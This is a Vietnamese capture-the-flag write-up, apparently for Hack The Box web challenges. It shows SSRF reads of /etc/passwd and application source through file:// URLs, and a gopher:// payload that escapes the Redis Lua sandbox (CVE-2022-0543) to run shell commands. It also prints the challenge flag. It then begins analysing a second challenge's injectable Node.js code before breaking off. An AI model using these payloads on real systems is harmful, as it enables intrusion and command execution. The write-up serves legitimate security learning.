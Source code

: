 - Đọc thành công nội dung file `/etc/passwd` => Sử dụng lỗi SSRF để khai thác bài này.
- Có header `X-Powered-By: Express` trong response => website được viết bằng Nodejs.
- Vậy bây giờ sử dụng lỗ hổng SSRF để đọc source nhằm biết flag ở đâu và chương trình có thêm một số chức năng ẩn nào khác không.

Sử dụng cái payload sau để đọc source code của bài:
```
file:///app/index.js
file:///app/database.js
file:///app/routes/index.js
file:///app/middleware/AuthMiddleware.js
file:///app/helpers/createRed.js
file:///app/helpers/ImageDownloader.js
```
Sau khi đọc được source thì không thấy flag nằm trong database => cần phải RCE để tìm flag ở đâu và đọc nó.
File `index.js` cho biết chương trình sử dụng Redis => port 6379 đang mở.
- Sử dụng tool [Gopherus](https://github.com/tarunkant/Gopherus) để tạo payload nhưng không thành công.
- Sau khi tìm kiếm trên Google thì thấy được có [CVE-2022-0543](https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543) có thể RCE bằng cách escape Lua sandbox.

### Payload
```
{"url":"gopher://localhost:6379/_eval%20%22local%20io_l=package.loadlib(%27/usr/lib/x86_64-linux-gnu/liblua5.1.so.0%27,%27luaopen_io%27);local%20io=io_l();local%20f%20=%20io.popen(%27ls%20/app%27,%27r%27);local%20res=f:read(%27*a%27);return%20res%22%200%0aquit"}
```
**Flag**: `HTB{r3d_righ7_h4nd_t0_th3_r3dis_land!}`

## Spiky Tamagotchy
Đọc source thì chỉ nhận thấy được đoạn code dưới đây là xử lí chính:
```
router.post('/api/activity', AuthMiddleware, async (req, res) => {
    const { activity, health, weight, happiness } = req.body;
    if (activity && health && weight && happiness) {
        return SpikyFactor.calculate(activity, parseInt(health), parseInt(weight), parseInt(happiness))
            .then(status => {
                return res.json(status);
            })
            .catch(e => {
                res.send(response('Something went wrong!'));
            });
    }
    return res.send(response('Missing required parameters!'));
});
```
- Nhận 4 giá trị từ các tham số `activity`, `health`, `weight`, `happiness`.
- Các giá trị của các tham số trên sẽ được ép kiểu thành integer, chỉ trừ `activity` vẫn giữ là string.
- Sau đó đưa các giá trị này vô hàm `calculate` ở file `SpikyFactor.js`
```
const calculate = (activity, health, weight, happiness) => {
    return new Promise(async (resolve, reject) => {
        try {
            // devine formula :100:
            let res = `with(a='${activity}', hp=${health}, w=${weight}, hs=${happiness}) {
```